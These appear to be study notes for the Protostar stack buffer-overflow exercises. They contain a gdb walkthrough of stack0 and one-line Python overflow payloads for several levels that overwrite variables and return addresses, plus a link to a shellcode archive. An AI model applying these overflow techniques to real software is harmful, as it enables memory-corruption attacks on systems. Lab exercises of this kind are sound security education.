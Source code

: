 >      `(gdb) break function_name`


#STACK EXERCISES
[Reference Stack 0-7]: https://kevinalmansa.github.io/write-ups/Protostar-Stack-Write-up/
[Walkthroughs]: https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN


## Stack 0: Overwrite Variable
------------------------------------------------------------------------
[Walkthrough]: https://www.youtube.com/watch?v=T03idxny9jE&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=13&ab_channel=LiveOverflow

[Simple]: python -c "print('A' * 65)" | ./stack0

[Detailed]: Step-by-Step
> 1.  $ cd /opt/protostar/bin
> 
> 2.  $ gdb stack0
>
> 3.  `(gdb) set disassembly-flavor intel`
>
> 4. Print registers, subset of stack, and upcoming intructions
>    after each step
>
>     `(gdb) define hook-stop`
>     `> python print '------------------------'`
>     `> info registers`   #prints registers
>     `> python print '------------------------'`
>     `> x/24wx $esp`      #prints stack
>     `> python print '------------------------'`
>     `> x/5i $eip`        #prints instructions  
>     `> python print '------------------------'`
>     `> end`  
>
> 5.  Set breakpoints
>      Use `(gdb) disassemble main` if you want to see
>       what instruction we are breaking one
>
>    + Break at main:
>      `(gdb) break main`
>
>    + Break after user input:
>      `(gdb) break *(main+33)`
>
>
> 6.  `(gdb) run`
>     You should hit the first breakpoint
>
> 7.  Observe the next 2 instructions
>      <main+9>:	mov    DWORD PTR [esp+0x5c],0x0
>      <main+17>:	lea    eax,[esp+0x1c]
>
> 8.  Observe <main+9>: `mov DWORD PTR [esp+0x5c],0x0`
>    + This is: `modified = 0`
>
>    + `[esp+0x5c]` is the location of the `modified` variable
>
>    + 0x0 is the value assigned to `modified` and is being
>      set in the stack
>
>    + In a decompiler (Ghidra/Cutter)
>     - You'll see that this assembly line points to the line 
>        closest to `modified = 0;`
>     - In Ghidra it's `local_c = 0;`
>
> 9.  Execute next instruction <main+9>: `mov DWORD PTR [esp+0x5c],0x0`
>     `(gdb) step`
>
> 10. Observe `modified` should be 0
>    + See as Integer (unsigned decimal)

[Protostar]: https://exploit-exercises.lains.space/protostar/
[Protostar ISO]: https://drive.google.com/drive/folders/0B9RbZkKdRR8qbkJjQ2VXbWNlQzg?usp=sharing
[Simple]:  ./stack1 $(python -c "print 'A' * 64 + '\x64\x63\x62\x61'")
[Walkthrough]: https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
[Simple]: python -c "print('A' * 64 + '\x24\x84\x04\x08')" | ./stack3
[Walkthrough]: https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
[Simple]: python -c "print('A' * 76 + '\xf4\x83\x04\x08')" | ./stack4
[Shellcode]: http://shell-storm.org/shellcode/
[Simple]: $ python -c "print('\x90' * 75 + 'BBBB')" | ./stack5
[Walkthrough]: https://www.youtube.com/watch?v=Y1RRda2Wnpw
[Walkthrough]: https://www.youtube.com/watch?v=m17mV24TgwY
[Walkthrough]: https://www.youtube.com/watch?v=IncswlWGn1M
